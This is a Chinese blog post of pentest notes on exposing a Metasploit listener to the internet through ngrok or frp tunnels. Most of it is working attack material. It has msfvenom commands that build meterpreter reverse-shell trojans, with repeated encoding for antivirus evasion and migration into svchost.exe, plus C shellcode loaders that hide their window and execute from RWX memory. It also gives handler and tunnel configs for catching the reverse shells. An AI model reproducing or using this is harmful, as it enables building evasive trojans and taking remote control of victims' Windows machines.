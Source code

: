 ```yaml
---

title: MSF映射到公网的常见方法
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-18 21:32:59
password: xxoo
summary:
tags: MSF
categories: MSF
---
```


---

### 0x01、前言

在渗透测试的环节中，MSF可以说是老生常谈的必会工具之一，有的时候内网的MSF并不能满足我们的使用需求，此时我们需要借助一些方法来进行端口转发，这里简单的介绍下如何将内网中的MSF转发到公网。

<!-- more -->

### 0x02、常见的两种转发方式

#### 方法①：使用Ngrok内网映射

首先我们需要有一个Ngrok官网的账户，官网地址：https://ngrok.com/，注册好后，首先下载一个Ngrok软件，下载地址：https://ngrok.com/download   

下载完成后，将软件复制到kali，解压后执行下图中的命令（ngrok官网会分配你个key）

![ngrok](MSF映射到公网的常见方法/ngrok.png)

![ngrok-kali](MSF映射到公网的常见方法/ngrok-kali.png)

接下来就很简单了，如果想将本地的http服务转发到公网，那么可以执行下列命令，然后会将http服务转发到公网的ngrok域名上

```
./ngrok http 80
```

![ngrok1](MSF映射到公网的常见方法/ngrok1.png)

![www](MSF映射到公网的常见方法/www.png)



ok，试完了http，我们来将tcp转发

```
./ngrok tcp 8888
```

![tcp](MSF映射到公网的常见方法/tcp.png)



 接下来，我们使用msf生成一个木马测试下

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```

这里简单说下木马的参数：

- -p	 选择指定payload

- –e    选择制定编码器（不同编码器免杀效果也有不同，部分编码器应对火绒等杀软效果显著）

-  -i     编码次数

- -b     去处多余/坏字符，lhost是你申请的ngrok服务器地址 lport是自定义的远程端口

- -f 	 生成指定格式

- -a     选择架构平台，包括x86 | x64 | x86_64

- --platform          选择系统类型

  

当然也可以生成c的shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f c 
```

![shellcode](MSF映射到公网的常见方法/shellcode.png)



使用VC++6.0对下面的代码进行编译

```
#include <stdio.h>

#pragmacomment( linker, “/subsystem:”windows” /entry:”mainCRTStartup”")//运行时不显示窗口

unsignedchar buf[] =

“buf数组”;//将复制的数组粘贴到此处

main()

{
((void(*)(void))&buf)();

}
```



回归正题，使用msf监听模块监听

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 127.0.0.1

set lport 8888

exploit
```



meterpreter获取会话

![msf](MSF映射到公网的常见方法/msf.png)





方法②：使用frp+vps内网映射

首先需要去gihub下载frp :https://github.com/fatedier/frp/releases 这里我下载的linux 64的版本（因为服务器是linux），下载后分别放到本地kali和服务器上，解压后，然后分别去配置：



服务端配置frps.ini文件：

```
bind_addr = 0.0.0.0			 //填0.0.0.0即可意为本机ip
bind_port = 6531			//frp连接端口
dashboard_addr = 0.0.0.0     //填0.0.0.0即可意为本机ip
dashboard_port = 7500		//网页访问端口
dashboard_user = admin 		//用户名
dashboard_pwd = crlf 		//密码
token = crlf			   //frp连接口令
```

配置完成后，启动服务端

```
方法一：./frps - c frps.ini		//前台启动，可以看到详细的监听xinxi
方法二：nohup ./frps -c frps.ini > log.txt &		//后台启动
```

![frp](MSF映射到公网的常见方法/frp.png)

启动成功后可以通过网页端访问来查看

![web](MSF映射到公网的常见方法/web.png)



接下来配置客户端kali的frpc.ini

```
[common]
server_addr = 66.23.x.x      //vps的ip
server_port = 6531     		//连接frp的端口
token = crlf      			//连接frp口令
[msf]
type = tcp     			   //tcp协议
local_ip = 127.0.0.1       //填127.0.0.1即可
local_port = 6759         //转发到vps的点端口
remote_port = 6000        //访问端口
```



运行 ./frpc  -c frpc.ini

![frp_c](MSF映射到公网的常见方法/frp_c.png)

ok，接下来使用上面的msfvenom 生成测试木马

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```



也可以使用shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=远程服务端ip 
LPORT=远程服务端端口 -e x86/shikata_ga_nai -i 15 -b 'x00' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```

- PrependMigrate=true、PrependMigrateProc=svchost.exe		使木马程序会迁移到svchost.exe进程

- 也可以使用windows/meterpreter/reverse_tcp_rc4这个payload，进行会话加密，增加免杀能力



使用vc++6.0创建32位的项目并编译

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:"windows" /entry:"mainCRTStartup"") //去除窗口
unsigned char shellcode[]=
"这里放生成的shellcode"
void main()
{
 LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 memcpy(Memory, shellcode, sizeof(shellcode));
 ((void(*)())Memory)();
}
```



最后启动msf，等待上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1  
set lport 6759     // 本机转发端口
```

![xx](MSF映射到公网的常见方法/xx.png)



### 0x03、结语：

写的很乱，用做笔记，希望能帮到有缘人吧，然后如有错误，欢迎斧正！

---

